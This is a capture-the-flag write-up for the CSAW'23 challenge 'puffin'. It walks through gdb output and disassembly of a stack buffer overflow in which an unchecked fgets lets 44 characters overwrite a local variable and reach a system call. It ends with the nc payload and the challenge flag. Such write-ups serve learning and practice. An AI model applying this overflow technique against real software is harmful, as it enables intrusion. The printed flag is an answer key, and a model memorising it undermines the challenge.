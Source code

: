 # CSAW'23

## puffin

> 
> Huff, puff, and blow that buffer over.
>
>  Author: ElykDeer
>
> [`readme.txt`](readme.txt), [`puffin`](puffin)

Tags: _intro_

## Solution
Right, again a binary and some instructions. This time to run the binary with a debugger. So lets fire up `gdb`.

```bash
$ gdb ./puffin
pwndbg> break main
Breakpoint 1 at 0x82e
pwndbg> r
```

We can step through the code by pressing `s` (step into) or `n` (next). After some typical `pwn` setup the program prints something...

```bash
0x55555540089f <main+117>    call   printf@plt                <printf@plt>
format: 0x555555400974 ◂— 'The penguins are watching: '
vararg: 0x1
```

Afterwards the user needs to input something and then the variable on stack [rbp-4] is tested to be 0. 

```bash
0x5555554008b7 <main+141>    call   fgets@plt                <fgets@plt>
s: 0x7fffffffde20 ◂— 0x0
n: 0x30
stream: 0x7ffff7f9aa80 (_IO_2_1_stdin_) ◂— 0xfbad208b

0x5555554008bc <main+146>    cmp    dword ptr [rbp - 4], 0
0x5555554008c0 <main+150>    je     main+166                <main+166>
```

If we look at the whole sequence in the disassembly we can see that there is a interesting looking call to `system` if [rbp-4] is not zero. But since we cannot change the value of the variable the system call is never reached. Or can't we?

```c
0x000055555540089f <+117>:   call   0x5555554006d0 <printf@plt>
0x00005555554008a4 <+122>:   mov    rdx,QWORD PTR [rip+0x200775]        # 0x555555601020 <stdin@@GLIBC_2.2.5>
0x00005555554008ab <+129>:   lea    rax,[rbp-0x30]
0x00005555554008af <+133>:   mov    esi,0x30
0x00005555554008b4 <+138>:   mov    rdi,rax
0x00005555554008b7 <+141>:   call   0x5555554006e0 <fgets@plt>
=> 0x00005555554008bc <+146>:   cmp    DWORD PTR [rbp-0x4],0x0
0x00005555554008c0 <+150>:   je     0x5555554008d0 <main+166>
0x00005555554008c2 <+152>:   lea    rdi,[rip+0xc7]        # 0x555555400990
0x00005555554008c9 <+159>:   call   0x5555554006c0 <system@plt>
0x00005555554008ce <+164>:   jmp    0x5555554008dc <main+178>
0x00005555554008d0 <+166>:   lea    rdi,[rip+0xc7]        # 0x55555540099e
0x00005555554008d7 <+173>:   call   0x5555554006b0 <puts@plt>
0x00005555554008dc <+178>:   mov    eax,0x0
0x00005555554008e1 <+183>:   leave
0x00005555554008e2 <+184>:   ret
```

The user input before is written to [rbp-0x30] and has no bounds  check. Since [rbp-4] is logically before our buffer we can write over the buffer bounds and change the variable at [rbp-4] as well. Perfect, our buffer is `43` bytes long, so we need to send at least `44` characters to override the variable. Lets test this:

```bash
$ nc intro.csaw.io 31140
The penguins are watching: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
csawctf{m4ybe_i_sh0u1dve_co113c73d_mor3_rock5_7o_impr355_her....}
```

Flag `csawctf{m4ybe_i_sh0u1dve_co113c73d_mor3_rock5_7o_impr355_her....}`
